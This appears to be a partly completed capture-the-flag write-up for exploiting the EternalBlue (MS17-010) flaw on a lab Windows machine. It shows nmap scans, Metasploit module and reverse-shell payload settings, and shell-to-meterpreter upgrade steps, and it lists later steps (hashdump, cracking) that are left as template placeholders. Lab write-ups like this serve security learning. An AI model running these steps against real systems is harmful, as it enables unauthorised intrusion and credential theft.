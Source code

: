 ## Recon

<details>
<summary> How many ports are open with a port number under 1000? </summary>
  <p></p>

____________________________________________________________________________________________________________________  
  
As we are specifying only ports under 1000 we use the following command:
  
``` nmap [ip] -p 0-1000 ```

As seen below, running this command exposes 3 open ports:
  
![image](https://user-images.githubusercontent.com/66912443/186659494-ca27127c-ef59-4279-8c78-4a66e22f1cd9.png)

____________________________________________________________________________________________________________________  
  
</details>

<details>
<summary> What is this machine vulnerable to? </summary>
<p></p>

____________________________________________________________________________________________________________________ 

The script "vuln" is a CVE detection script that helps discover vulnerabilities in the scanned network. It can be activated with the following command:
  
``` nmap [ip] --script vuln ```
  
As seen below it has identified the machine is vulnerable to "ms17-010"
  
![image](https://user-images.githubusercontent.com/66912443/186661668-94728fae-8558-4642-81a8-3cb717ee4798.png)

____________________________________________________________________________________________________________________  
</details>

## Gain Access

<details>
<summary> Find the exploitation code we will run against the machine. What is the full path of the code? </summary>
  <p></p>
  
____________________________________________________________________________________________________________________ 
  
Rapid7 is a great tool for finding vulnerabilities and their uses along with sometimes instructions on how to complete the exploit yourself. Using rapid7.com's Vulnerability and Exploit Database, this vulnerability can be seen in more detail:
  
``` https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/ ```
  
Talking about instructions on how to complete the exploit yourself, at the bottom of the page the first line of code identifies the exploitation code needed to run against the machine!
  
![image](https://user-images.githubusercontent.com/66912443/186663495-0312c1af-22e4-4549-bfbf-563dda2f2670.png)

____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Show options and set the one required value. What is the name of this value? </summary>
  <p></p>

____________________________________________________________________________________________________________________   
``` RHOSTS ``` is the one required value. This is because RHOSTS determines the ip address of the target.

____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> With that done, run the exploit! </summary>
 
____________________________________________________________________________________________________________________ 

Before running the exploit, make sure to run the following command as by default it will load meterpreter and a follow up question requires converting shell to meterpreter shell.
  
``` set payload windows/x64/shell/reverse_tcp ```
  
Then simply type 'run' and let metaspolit do its thing! If done correctly you will be presented with something similar to the following:
  
![image](https://user-images.githubusercontent.com/66912443/186665440-c9ede66d-7bc3-4245-b47e-a56ceec67727.png)

  
____________________________________________________________________________________________________________________ 

</details>

## Escalate

<details>
<summary> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? </summary>
  
____________________________________________________________________________________________________________________

Thanks to a post by 'Binamra Pandey' I have learnt the command to convert a shell is as follows: 
   
``` post/multi/manage/shell_to_meterpreter ```
  
<p></p>
  
Source = https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646  
____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Select this (use MODULE_PATH). Show options, what option are we required to change? </summary>
  
____________________________________________________________________________________________________________________ 

``` SESSION ``` is the required option as we need to know which session (that has been backgrounded) to run this exploit on. In my example 'session 2' was backgrounded. 
  
To list all sessions use ``` sessions -l ```
  
![image](https://user-images.githubusercontent.com/66912443/186669104-9eca0c90-a0e7-453b-953b-3fc117fda793.png)


____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> Run! If this doesn't work, try completing the exploit from the previous task once more. </summary>



</details>

<details>
<summary> Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> List all of the processes running via the 'ps' command. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id </summary>

Any folded content here. It requires an empty line just above it. 

</details>

<details>
<summary> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. </summary>

Any folded content here. It requires an empty line just above it.

</details>

## Cracking

<details>
<summary> Within our elevated meterpreter shell, run the command 'hashdump'. What is the name of the non-default user? </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> Copy this password hash to a file and research how to crack it. What is the cracked password? </summary>

Any folded content here. It requires an empty line just above it.

</details>

## Find Flags!

<details>
<summary> Flag1? This flag can be found at the system root. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> Flag2? This flag can be found at the location where passwords are stored within Windows. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </summary>

Any folded content here. It requires an empty line just above it.

</details>

